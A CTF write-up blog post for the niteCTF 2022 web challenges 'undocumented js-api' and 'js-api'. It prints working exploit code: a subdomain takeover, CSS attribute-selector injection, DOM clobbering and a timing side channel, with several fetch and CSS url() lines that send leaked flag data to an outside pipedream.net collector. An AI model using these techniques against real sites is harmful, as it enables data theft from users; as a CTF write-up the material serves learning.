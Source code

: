 ```yaml
---
layout: post
current: post
cover: assets/nite/nisala/cover.png
navigation: True
title: "un(documented)-js-api"
date: 2022-12-27 10:00:00
tags: [niteCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


DOM clobbering, domain takeovers, shared process slowdowns, and CSS exfiltration, oh my!

These challenges were really something. While they were often broken (undocumented js-api was literally unsolvable for the first 24 hours that it was up), the core of the challenges were honestly pretty brilliant. Let's talk through them.

### First stop: undocumented js-api

In this challenge, we're greeted with a Notes app. We can input HTML into the box, which can then be rendered. All good so far. To solve the challenge, we have to submit a URL to an admin bot, which visits it with the flag in local storage (previous note is always stored there, because there's a function to restore the last note). 

At first glance, it looks like the notes app has an iframe API -- but you can only activate it if the iframe is embedded in a subdomain of the challenge (hosted at `chall1.jsapi.tech`):

```js
const parseUrl = (url) => {
    return (new URL(url)).host.endsWith(".jsapi.tech");
};
```

In a lot of challenges, the bug would be here. But this uses the `URL` constructor. We're not breaking this. So how do we do this? Well, I noticed that when you visit any subdomain of `jsapi.tech`, you get a GitHub Pages 404 page. So every subdomain is hooked into GitHub Pages. Now, this wouldn't normally be exploitable -- but GitHub doesn't tie registered domains to user accounts. Instead, they expect you to register DNS to a domain and then immediately publish to it. If you don't, *anyone can publish to it later on*. And that's exactly the exploit here. So I just made a repo and published to `squ1rrel.jsapi.tech`, and I'm in!

Now, we have to use the iframe API to get the flag. Unfortunately, we can't just put a script in -- not only because of a Content Security Policy, but because the Notes app is using `DOMPufify`. Lucky for us, though, they're using it insecurely:

```js
DOMPurify.sanitize(str, {ADD_TAGS: ['link','style']}); // allow CSS
```

We can get CSS in! Now, CSS seems innocuous on its own -- but the previous note's data (i.e. the flag) is stored in an attribute called `data-last` on the textarea, which we can select for in CSS! Check this out:

```css
textarea[data-last^='nite{a'] {
    background: url("https://LINK.x.pipedream.net/exfiltrate?data=nite.a");
}
```

If the `data-last` attribute starts with `nite{a`, then the URL is called, sending us the data `nite.a`. Now, we know that the flag starts with `a`, and we can add on another letter to test it out. By doing this over and over, we can get the entire flag.

Now, obviously, I don't want to write all this CSS out myself, so I wrote a little script to generate CSS files for me:

```js
const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_}';
const prefix = "n";
const setPrefix = prefix.replace("{", ".");
let css = "";
for (let c1 of characters) {
    css += `textarea[data-last^='${prefix}${c1}'] {
        background: url("https://LINK.x.pipedream.net/exfiltrate?data=${setPrefix}${c1.replace("}", ".")}");
    }
    
    `;
}

const fs = require("fs");
fs.writeFileSync("test.css", css);
```

I modified this script to get me up to three characters at a time (just more `for` loops), but for simplicity, I'm just showing one at a time here. In order to get the CSS on the page, I used the iframe API like this:

```js
const ORIGIN = "https://chall1.jsapi.tech";
window.addEventListener("message", function(event) {
    if (event.origin !== ORIGIN) return;
    if (event.data === "NOTE_APP_API_LOADED") {
        document.querySelector("iframe").contentWindow.postMessage(`NOTE_APP_SET_REQUEST any text here<link rel="stylesheet" href="https://squ1rrel.jsapi.tech/test.css?t=${Math.random()}"></link>`, ORIGIN);
    }

    fetch("https://enu819t2ymo3d.x.pipedream.net/?data=" + encodeURIComponent(event.data));
});
```

When the API loads, this sets a note with the CSS link, which does the exfiltration as described above. I add `Math.random()` on the end to stop CSS caching (as we found out later, this was required because they weren't using an Incognito browser context). You'll notice that the note starts with "any text here". That's because, for some reason, [DOMPurify removes allowed tags if they're the first tag](https://github.com/cure53/DOMPurify/issues/683), so you just have to put something before it.

As I got more characters, I would add them to the prefix, regenerate the CSS, redeploy it to GitHub Pages, and submit to the admin bot again. And eventually, I had the flag!

### Another one: js-api

js-api claimed to be better documented. Honestly, the documentation was incredibly pointless -- it was clear what was and wasn't vulnerable, and that was kinda that. But let's break it down anyways. This is, once again, a Notes app with an iframe API. This API let you preview a note (to a div), set a note (to an internal variable), or search a note (search that internal variable). Here's the search function:

```js
search(text) {
    if ( typeof text !== 'string' ) return;
    if ( !window.enable_experimental_features ) return;

    // some massive security warning I've removed
    // because honestly it made the challenge more confusing
    text = DOMPurify.sanitize( text );
    const doesMatch = this.noteData.includes(text);
    if ( doesMatch ) {
        var lastIndex = 0, i = 0;
        for (...) {
            if ( lastIndex > i ) break;

            this.highlightNode.innerHTML 
                += escapeHtml(this.noteData.substring(lastIndex, i));
            this.highlightNode.innerHTML 
                += `<mark>${escapeHtml( text ) }</mark>`
            
            lastIndex = i + text.length;
        }
        document.querySelector('#note-text-highlight-wrapper').classList.remove('hidden');
    }
}
```

Okay, so `search` has a security warning in it, so it's obviously vulnerable. In order to use it, though, we have to set `window.enable_experimental_features`. We can do this with DOM clobbering. Simply use the `preview` function like so:

```js
iframeWindow.postMessage({
    op: "preview",
    payload: `1<p id="enable_experimental_features">clobber</p>`
}, ORIGIN);
```

And we're good to go -- the variable is set! Now, let's look at what the search function is actually doing. If we search for a piece of text, *and it's in the note*, it'll start populating a new "search results" div. It'll put the contents of the note in the div, and it'll highlight what the search matched in the note. Now, by itself, this is pretty worthless -- but there are two key things the admin bot is doing that actually makes this the key to the solution.

```js
const flag2 = 'nite{549387f2-00fc-4f70-a769-c8887f8dca65}'.repeat(1000);
```

Okay, the flag is repeated 1000 times, and it's super long. You'll notice that the search function uses `innerHTML` and appends to it over and over -- so with this much text, it'll definitely cause significant browser lag. Now, normally, the iframe would run in a different process from the page it's contained in, so the main page wouldn't be able to notice this. But the admin bot has done one more key thing:

```js
puppeter_args.args = [
    '--disable-site-isolation-trials',
    '--user-data-dir=/tmp/chrome-userdata',
    '--breakpad-dump-location=/tmp/chrome-crashes'
];
```

Disable site isolation trials? Whatever could that mean?

> After you disable the isolation policy, Chrome uses its pre-site isolation process model to render websites. Different sites might share processes with each other. And cross-site frames might be rendered in the same process as their parent page.

Cross-site frames in the same process as their parent page, you say? Well, well, well! Looks like we'll be able to detect it after all! So here's what we do:

```js
const characters = "abcdefghijklmnopqrstuvwxyz0123456789_-}";
let prefix = `nite{${location.hash.replace("#", "")}`;
while (!prefix.includes("}")) {
    for (let character of characters) {
        let now = Date.now();
        iframeWindow.postMessage({
            op: "search",
            payload: `${prefix}${character}`
        }, ORIGIN);                
        await new Promise(resolve => setTimeout(resolve, 10));
        if (Date.now() - now > 100) {
            console.log(prefix + character);
            prefix += character;
            fetch("https://LINK.x.pipedream.net/exfiltrate?data=" 
                + prefix.replace("{", ".").replace("}", "."));
            break;
        }
    }
}
```

This dynamically tries to search for the flag, using the flag prefix we already know. After dispatching a search, it sets a 10 millisecond timeout, which tells the Chrome event scheduler to move onto something else (thus ensuring that the search runs and it doesn't just move on immediately). If the search takes more than 100 milliseconds (i.e. 10x the time of the timeout!), it's gotten hung up, which means it was probably displaying search results! Thus, it sends that out to us, and tries to find the next character.

There's a 60 second timeout on the admin bot, so we have to run this a couple times (which is why I made it so you could tack the known prefix onto the URL). But after a few tries, we got the flag!